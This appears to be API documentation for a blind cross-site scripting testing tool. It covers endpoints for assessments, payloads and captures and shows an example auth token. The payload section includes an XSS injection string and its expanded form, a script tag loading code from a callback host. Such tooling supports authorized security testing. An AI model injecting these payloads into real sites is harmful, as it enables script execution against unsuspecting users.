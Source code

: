 ##API##
The API can be used for tool development and automation.  

##API Authentication##
After creating an admin account, navigate to the Admin model and copy the token.  You will need the token to perform any API requests.

![Token](http://i.snag.gy/bc8vP.jpg "Token")

You *MUST* send the token as a header in each request.  Here is an example for creating a new Assessment:

    POST /api/assessments HTTP/1.1
    Token: 7bf26bd2a9782a3a3422b6abb5c2d0ebe58999a984bf0bcf8197f56f84f0c878cfd37c76c0339b12
    Content-Type: application/json
    Content-Length: 29
    

    {"name": "stuff.netflix.com"}
    
    
###Assessment API###

**API Calls**

| HTTP Method | URI | ACTION | 
| ----------- | --- | ------ |
| GET | http://[hostname]/api/assessments | Retrieve a list of assessments |
| GET | http://[hostname]/api/assessments/[id] | Retrieve a specific assessment | 
| POST | http://[hostname]/api/assessments | Create a new assessment |
| PUT | http://[hostname]/api/assessments/[id] | Update a specific assessment |
| DELETE | http://[hostname]/api/assessments/[id]  | Delete an assessment|

**JSON parameters**

| Parameter | Type | Required | Description | 
| --------- | ---- | -------- | ----------- |
| id | integer | True (For PUT/GET/DELETE| id field for PUT/GET/DELETE requests|
| name | string | True | The application or assessment identifier | 


###Payload API###

**API Calls**

| HTTP Method | URI | ACTION | 
| ----------- | --- | ------ |
| GET | http://[hostname]/api/payloads | Retrieve a list of payloads |
| GET | http://[hostname]/api/payloads/[id] | Retrieve a specific payload | 
| POST | http://[hostname]/api/payloads | Create a new payload |
| PUT | http://[hostname]/api/payloads/[id] | Update a specific payload |
| DELETE | http://[hostname]/api/payloads/[id]  | Delete a payload|

**JSON parameters**

| Parameter | Type | Required | Description | 
| --------- | ---- | -------- | ----------- |
| id | integer | True (For PUT/GET/DELETE| id field for PUT/GET/DELETE requests|
| assessment | string | True | The application or assessment identifier | 
| payload | string | True | The injection string.  Can also use $1 as plaeholder for payload | 
| method | string | False | The request method (GET/POST/PUT/DELETE) | 
| url | string | False | The URL you are testing | 
| parameter | string | False | The parameter you are testing |
| notes | string | False | Notes on the payload | 


**POST Request**

    {
        "assessment": "Example",
        "payload": "<script src=$1></script>",
        "method": "GET",
        "parameter": "UID",
        "notes": "",
        "url": "http://www.foo.com/what.php?UID=2343"
    }
    
**POST Response**

    HTTP/1.0 201 CREATED
    Content-Type: application/json
    Content-Length: 200
    Date: Tue, 04 Feb 2014 00:30:14 GMT
    
    {
        "assessment": "Example", 
        "id": 2, 
        "method": "GET", 
        "notes": "", 
        "parameter": "UID", 
        "payload": "<script src=\"//127.0.0.1:8081/x?u=None\"></script>",
        "url": "http://www.foo.com/what.php?UID=2343"
    }


       
       
###Capture API###
| HTTP Method | URI | ACTION | 
| ----------- | --- | ------ |
| GET | http://[hostname]/api/captures | Retrieve a list of captures |
| GET | http://[hostname]/api/captures/[id] | Retrieve a specific capture | 
| DELETE | http://[hostname]/api/captures/[id]  | Delete a capture|

